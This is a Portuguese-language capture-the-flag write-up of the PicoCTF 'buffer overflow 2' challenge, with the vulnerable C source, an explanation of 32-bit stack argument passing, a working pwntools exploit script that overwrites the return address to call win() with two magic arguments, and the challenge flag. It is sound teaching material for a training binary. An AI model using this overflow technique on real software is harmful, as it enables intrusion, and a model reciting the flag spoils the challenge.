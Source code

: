 # WriteUp: buffer overflow 2
## Descrição do Desafio:
**Autor**: Sanjay C / Palash Oswal \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/259?category=6&page=2) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Média \
**Data**: 2022 \
**Descrição**:
> Control the return address and arguments
## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
Assim como os anteriores, este fornece o arquivo fonte, `vuln.c`. A análise dele é basicamente a mesma do `buffer overflow 1`, com vulnerabilidade de `buffer overflow` na função `vuln()`. A diferença é que a função `win()` necessita de dois parâmetros.

{% code title="vuln.c" overflow="wrap" lineNumbers="true" %}

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```

{% endcode %}

### 2. Exploit
O objetivo é o mesmo do anterior, temos que controlar o retorno da função `vuln()` para ela retornar para a função `win()`, mas também temos que passar dois parâmetros, o primeiro com valor de `0xCAFEF00D` e o segundo com valor de `0xF00DF00D`.

Aqui é necessário entender um pouco sobre como a pilha fica quando chamamos uma função. No desafio anterior eu disse que o endereço de retorno é colocado no topo da pilha, guarde isso, mas agora temos que saber como os parâmetros são passados.

Bom, isso depende da arquitetura, se for **32-bits** (nosso caso) os parâmetros são passados pela pilha, em ordem decrescente, de forma que a pilha tem que ficar mais ou menos assim:
```
+-----Stack-----+
|   End. Ret    |
|    Param 1    |
|    Param 2    |
|      ...      |
+---------------+
```
E se for **64-bits**, os parâmetros são passados por meio dos registradores, sendo necessário fazer `ROP` para conseguir passar parâmetros.
### 3. Solução
Novamente, o primeiro passo é identificar quantos *bytes* serão escritos até chegar no endereço de retorno. Após isso, sobrescrevemos o endereço de retorno para ser o endereço da função `win()`, e por fim temos que forjar uma pilha para a função `win()`, ou seja, temos que colocar no topo um endereço para ela retornar (lixo para nós), o parâmetro 1, e por fim o 2.

### 3.1 Solução com Python

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./vuln")
p = remote(ip, porta) #Troque pelos valores fornecidos

payload = flat(
    "A" * 112,        #Lixo - padding
    elf.sym["win"],   #Endereço de retorno da Vuln
    #Forjando pilha da Win
    0x0,              #Endereço de retorno da Win (topo)
    0xCAFEF00D,       #Parâmetro 1
    0xF00DF00D        #Parâmetro 2
)

p.sendlineafter(b"string: ", payload)
p.recvlinesS(2)
print(p.recvall())
```

{% endcode %}

### Flag
`picoCTF{argum3nt5_4_d4yZ_3c04eab0}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
